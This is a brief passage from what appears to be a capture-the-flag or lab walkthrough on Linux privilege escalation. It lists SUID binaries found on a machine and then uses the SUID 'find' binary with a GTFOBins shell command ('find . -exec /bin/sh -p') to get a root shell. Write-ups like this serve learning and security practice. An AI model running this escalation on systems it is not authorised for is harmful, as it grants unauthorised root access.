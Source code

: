 /snap/core/8689/usr/bin/passwd  
/snap/core/8689/usr/bin/sudo 
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core/8689/usr/lib/openssh/ssh-keysign 
/snap/core/8689/usr/lib/snapd/snap-confine 
/snap/core/8689/usr/sbin/pppd
/snap/core/9436/bin/mount
image

we have an SUID /usr/bin/find let's abuse the bin and get root. From gtfobins we can see the payload to use in abusing the bin.

image

/usr/bin/find . -exec /bin/sh -p \; -quit
image

We are root!. hope you had funwink.
